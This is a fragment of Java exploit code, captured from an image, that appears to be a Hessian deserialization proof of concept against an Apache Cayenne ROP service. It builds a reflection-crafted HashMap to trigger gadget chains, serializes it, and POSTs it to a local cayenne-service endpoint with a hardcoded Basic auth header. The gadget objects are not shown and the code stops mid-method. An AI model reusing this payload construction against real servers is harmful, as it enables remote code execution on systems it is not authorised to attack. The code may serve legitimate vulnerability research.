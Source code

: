 ```bash
        HashMap hashMap = maskmap(u1, u2);


        HessianROPSerializationService serializationService = new HessianROPSerializationService(serializerFactory);
        byte[] serialize = serializationService.serialize(hashMap);
        post(serialize);
//        serializationService.deserialize(serialize, ClientMessage.class);

    }


    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }


    public static HashMap maskmap(Object u1,Object u2) throws Exception{
        HashMap hashMap = new HashMap();
        Class node = Class.forName("java.util.HashMap$Node");
        Constructor constructor = node.getDeclaredConstructor(int.class, Object.class, Object.class, node);
        constructor.setAccessible(true);
        Object node1 = constructor.newInstance(0, u1, null, null);
        Object node2 = constructor.newInstance(0, u2, null, null);
        Field key = node.getDeclaredField("key");
        key.setAccessible(true);
        key.set(node1, u1);
        key.set(node2, u2);
        Field size = HashMap.class.getDeclaredField("size");
        size.setAccessible(true);
        size.set(hashMap, 2);
        Field table = HashMap.class.getDeclaredField("table");
        table.setAccessible(true);
        Object arr = Array.newInstance(node, 2);
        Array.set(arr, 0, node1);
        Array.set(arr, 1, node2);
        table.set(hashMap, arr);

        return hashMap;
    }
    public static void post(byte[] b) throws Exception{
//        Proxy proxy = new Proxy(Proxy.Type.HTTP, new InetSocketAddress("127.0.0.1", 8088));
        URL url=new URL("http://127.0.0.1:8080/cayenne-service");
        HttpURLConnection con = (HttpURLConnection) url.openConnection();
        con.setRequestProperty("Content-Type", "application/hessian");
        con.setRequestProperty("Authorization", "Basic Y2F5ZW5uZS11c2VyOnNlY3JldA==");
        con.setRequestMethod("POST");
        con.setDoOutput(true);
```
